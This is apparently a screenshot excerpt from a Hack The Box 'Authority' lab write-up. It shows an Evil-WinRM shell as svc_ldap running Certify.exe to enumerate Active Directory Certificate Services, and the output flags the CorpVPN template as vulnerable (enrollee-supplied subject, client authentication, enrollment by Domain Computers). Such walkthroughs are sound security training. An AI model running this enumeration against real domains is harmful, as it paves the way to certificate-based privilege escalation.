 ```shell
*Evil-WinRM* PS C:\Users\svc_ldap\Documents> ./Certify.exe find /vulnerable

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v1.0.0

[*] Action: Find certificate templates
[*] Using the search base 'CN=Configuration,DC=authority,DC=htb'

[*] Listing info about the Enterprise CA 'AUTHORITY-CA'

    Enterprise CA Name            : AUTHORITY-CA
    DNS Hostname                  : authority.authority.htb
    FullName                      : authority.authority.htb\AUTHORITY-CA
    Flags                         : SUPPORTS_NT_AUTHENTICATION, CA_SERVERTYPE_ADVANCED
    Cert SubjectName              : CN=AUTHORITY-CA, DC=authority, DC=htb
    Cert Thumbprint               : 42A80DC79DD9CE76D032080B2F8B172BC29B0182
    Cert Serial                   : 2C4E1F3CA46BBDAF42A1DDE3EC33A6B4
    Cert Start Date               : 4/23/2023 9:46:26 PM
    Cert End Date                 : 4/23/2123 9:56:25 PM
    Cert Chain                    : CN=AUTHORITY-CA,DC=authority,DC=htb
    UserSpecifiedSAN              : Disabled
    CA Permissions                :
      Owner: BUILTIN\Administrators        S-1-5-32-544

      Access Rights                                     Principal

      Allow  Enroll                                     NT AUTHORITY\Authenticated UsersS-1-5-11
      Allow  ManageCA, ManageCertificates               BUILTIN\Administrators        S-1-5-32-544
      Allow  ManageCA, ManageCertificates               HTB\Domain Admins             S-1-5-21-622327497-3269355298-2248959698-512
      Allow  ManageCA, ManageCertificates               HTB\Enterprise Admins         S-1-5-21-622327497-3269355298-2248959698-519
    Enrollment Agent Restrictions : None

[!] Vulnerable Certificates Templates :

    CA Name                               : authority.authority.htb\AUTHORITY-CA
    Template Name                         : CorpVPN
    Schema Version                        : 2
    Validity Period                       : 20 years
    Renewal Period                        : 6 weeks
    msPKI-Certificate-Name-Flag          : ENROLLEE_SUPPLIES_SUBJECT
    mspki-enrollment-flag                 : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS, AUTO_ENROLLMENT_CHECK_USER_DS_CERTIFICATE
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : Client Authentication, Document Signing, Encrypting File System, IP security IKE intermediate, IP security user, KDC Authentication, Secure Email
    mspki-certificate-application-policy  : Client Authentication, Document Signing, Encrypting File System, IP security IKE intermediate, IP security user, KDC Authentication, Secure Email
    Permissions
      Enrollment Permissions
        Enrollment Rights           : HTB\Domain Admins             S-1-5-21-622327497-3269355298-2248959698-512
                                      HTB\Domain Computers          S-1-5-21-622327497-3269355298-2248959698-515
```